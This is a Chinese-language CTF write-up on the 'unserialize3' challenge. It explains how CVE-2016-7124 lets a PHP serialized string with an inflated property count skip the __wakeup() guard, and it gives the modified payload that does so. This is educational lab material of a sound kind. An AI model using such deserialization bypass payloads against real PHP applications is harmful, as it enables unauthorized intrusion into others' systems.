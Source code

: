 [反序列化学习笔记（二）CTF经典考题由浅至深](https://blog.csdn.net/qq_35493457/article/details/119735063)

# unserialize3

知识点：反序列化漏洞，主要还是绕过思想，和绕过正则一样

```php
class xctf {
    public $flag = '111';   // 定义了一个类属性 flag，初始值为 '111'

    public function __wakeup() {
        exit('bad requests');  // 定义了 __wakeup() 方法，用于防止反序列化后对象恢复时执行。
    }
}
?code=
```

在 PHP 中，`__wakeup()` 是一个魔术方法，当一个对象被 **反序列化** 时，这个方法会被自动调用。该方法通常用于防止恶意反序列化带来的安全问题。在这个例子中，`__wakeup()` 方法直接使用了 `exit()` 函数来终止执行，并输出 `'bad requests'`，这是为了防止反序列化后继续执行代码。

在这里我们可以看到只有一个魔术方法，而\__wakeup()魔术方法是反序列化之前检查执行的函数，也就是说，不管传入什么，都会优先执行\__wakeup()方法，但这里针对\__wakeup()方法有一个CVE漏洞，CVE-2016-7124，在传入的序列化字符串在反序列化对象时与真实存在的参数个数不同时会跳过执行，即当前函数中只有一个参数$flag，若传入的序列化字符串中的参数个数为2即可绕过。
如下:

```php
<?php
class xctf{ 
	public $flag = '111';
}
$a = new xctf();
echo serialize($a); # O:4:"xctf":1:{s:4:"flag";s:3:"111";}
?>
```

将`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`变成`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`表示有两个参数，就能避免`exit()`，然后得到flag。